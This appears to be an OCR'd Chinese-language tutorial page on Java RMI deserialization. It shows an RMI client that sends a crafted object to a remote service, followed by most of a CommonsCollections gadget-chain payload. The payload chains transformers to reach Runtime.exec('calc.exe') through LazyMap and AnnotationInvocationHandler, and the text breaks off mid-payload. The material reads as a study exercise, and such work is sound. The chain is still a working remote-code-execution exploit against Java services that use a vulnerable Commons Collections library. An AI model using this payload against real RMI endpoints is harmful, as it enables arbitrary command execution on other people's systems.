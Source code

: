 client 代码

```java
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;

import static rmi.CommonsCollectionsRMI.getPayload;

public class Client1 {
    public static void main(String[] args) throws Exception, RemoteException, NotBoundException {
//        /**获取远程主机对象*/
//        Registry registry = LocateRegistry.getRegistry("localhost", 1099);
//        /**利用注册表的代理去查询远程注册表中名为user的对象*/
//        User userClient1 = (User) registry.lookup("user");
//        /**调用远程方法*/
//        userClient1.work(getPayload());
        // 第二种方法
        String u = "rmi://localhost:1099/user";
        User userClient2 = (User) Naming.lookup(u);
        userClient2.work(getPayload());
    }
}
```

调用的payload

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsRMI {
    public static Object getPayload() throws Exception{
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Class[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);
        Map ProxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
        //通过反射覆盖原本的iTransformers，防止序列化时在本地执行命令
```